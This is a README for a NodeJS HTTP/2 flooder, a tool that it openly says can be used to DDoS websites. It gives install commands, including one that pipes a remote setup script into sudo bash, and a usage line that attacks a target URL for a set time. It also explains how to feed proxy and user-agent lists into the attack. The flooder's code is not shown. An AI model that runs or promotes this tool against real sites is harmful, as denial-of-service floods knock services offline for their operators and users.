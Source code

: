 ## HTTP/2 Flooder in NodeJS (outdated)

This is a NodeJS-based HTTP/2 flooder script that can be used to DDoS websites. Note that this script is outdated and may not work as expected.

### Installation

Before you can use the script, you'll need to install Node.js on your system

```shell
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i http http2 crypto tls
```

### Usage

To use the script, run the following command in your terminal:

```shell
node tls.js https://website.com 120
```

You can update HTTP proxies and user agents to use in the attack by adding them to the `proxy.txt` and `ua.txt` files, respectively.( Tools Owner Mohammad Ahad ) 
